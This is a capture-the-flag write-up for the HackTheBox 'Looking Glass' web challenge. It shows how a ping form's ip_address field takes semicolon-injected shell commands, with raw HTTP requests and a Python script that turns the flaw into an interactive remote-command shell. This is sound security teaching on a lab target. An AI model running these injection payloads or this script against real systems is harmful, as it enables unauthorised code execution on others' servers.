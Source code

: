 ```yaml
---
title: "HackTheBox Writeup- Looking Glass"

categories: [HacktheBox - Challenges,web]

tags: [easy,RCE,scripting,web]

image: https://d3an9kf42ylj3p.cloudfront.net/uploads/2012/12/Looking-Glass-300x300.jpg
---
```



## CHALLENGE DESCRIPTION

We've built the most secure networking tool in the market, come and check it out!


## PROOF OF CONCEPT
The Looking  Glass website allow the user the troubleshoot and check status of the server the server’s through `ping` and `traceroute` commands 

![Untitled](/imgs/looking_glass/untitled.png)


&nbsp;

By intercepting (Burp_suite) the request , it sends a `POST` request to the server to perform a ping request to the IP `206.189.120.31` 

```bash
POST / HTTP/1.1
Host: 206.189.120.31:31868
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://206.189.120.31:31868
Connection: close
Referer: http://206.189.120.31:31868/
Upgrade-Insecure-Requests: 1

test=ping&ip_address=206.189.120.31&submit=Test
```

&nbsp;

In the Response , It  can observed that  the output put of ping .

![Untitled](/imgs/looking_glass/Untitled1.png)

&nbsp; 

The  semicolon (`;`) either in windows command Prompt or linux terminal is used to seperate multiple command in a single line .
&nbsp; 

In the below request the , after the parameter `ip_address` ,inserted the semicolon  to separate the first command , so any next command command can be executed. 

Now, next to the parameter `ip_address=;ls+la`   is placed to verify  the remote code can be executed .

```python
POST / HTTP/1.1
Host: 206.189.120.31:31868
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: http://206.189.120.31:31868
Connection: close
Referer: http://206.189.120.31:31868/
Upgrade-Insecure-Requests: 1

test=ping&ip_address=;ls+-la&submit=Test
```

&nbsp; 

From the below output of list view of the `ls+-la` command ,it is visible that the aribitary remote commands can be executed on the server.

![Untitled](/imgs/looking_glass/Untitled2.png)

&nbsp; 

In the root directory(`/`) , have the flag to the challenge.

![Untitled](/imgs/looking_glass/Untitled3.png)

&nbsp; 

I have writren a python script to automate the process to run shell command from command line

```python
import requests,sys
from bs4 import BeautifulSoup as bs
import urllib

# your ip here 
ip = '206.189.120.31:31868' 

headers = {
        'Host': f'{ip}',
        'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/114.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-GB,en;q=0.5',
        # 'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded',
        # 'Content-Length': '36',
        'Origin': f'http://{ip}',
        'Connection': 'close',
        'Referer': f'http://{ip}',
        'Upgrade-Insecure-Requests': '1',
}

try:
    with requests.session() as s:
        request = s.get(f'http://{ip}/')
        if request.ok:
            while True:
                try:
                    cmd = input("\033[0;32mRCE\033[0m -> ")
                    command = urllib.parse.unquote(cmd)
                    data = f'test=ping&ip_address=;{command}&submit=Test'
                    response = s.post(f'http://{ip}/', headers=headers, data=data, verify=False)
                    resp = response.content.decode()
                    soup = bs(resp,"html.parser")
                    text = soup.find_all('textarea')[0].text
                    print(text.strip())
                except KeyboardInterrupt:
                        sys.exit()
                except ConnectionError:
                        print('lost connection to the Server')
                        sys.exit()
        else:
            print("check the connection")         
finally:
    pass
```

&nbsp; 

This the output of the python script

![Untitled](/imgs/looking_glass/Untitled4.png)